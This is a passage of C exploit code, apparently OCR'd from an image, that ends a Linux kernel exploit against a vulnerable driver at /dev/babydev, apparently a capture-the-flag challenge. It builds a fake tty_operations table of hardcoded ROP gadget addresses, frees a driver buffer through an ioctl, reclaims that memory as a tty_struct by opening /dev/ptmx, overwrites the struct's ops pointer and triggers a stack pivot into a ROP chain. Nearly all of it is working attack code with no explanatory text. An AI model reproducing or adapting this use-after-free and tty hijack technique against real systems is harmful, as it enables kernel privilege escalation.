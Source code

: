 ```C
    rop[i++] = user_sp;
    rop[i++] = user_ss;

	for(int i = 0; i < 30; i++)
	{
		fake_tty_operations[i] = 0xFFFFFFFF8181BFC5; 
	}
    fake_tty_operations[0] = 0xffffffff810635f5;  //pop rax; pop rbp; ret;
    fake_tty_operations[1] = (size_t)rop;
    fake_tty_operations[3] = 0xFFFFFFFF8181BFC5;  // mov rsp,rax ; dec ebx ; ret

    int fd1 = open("/dev/babydev", O_RDWR);
    int fd2 = open("/dev/babydev", O_RDWR);
    ioctl(fd1, 0x10001, 0x2e0);
    close(fd1);

    int fd_tty = open("/dev/ptmx", O_RDWR|O_NOCTTY);
    size_t fake_tty_struct[4] = {0};
    read(fd2, fake_tty_struct, 32);
    fake_tty_struct[3] = (size_t)fake_tty_operations;
    write(fd2,fake_tty_struct, 32);

    char buf[0x8] = {0};
    write(fd_tty, buf, 8);

    return 0;
}
```

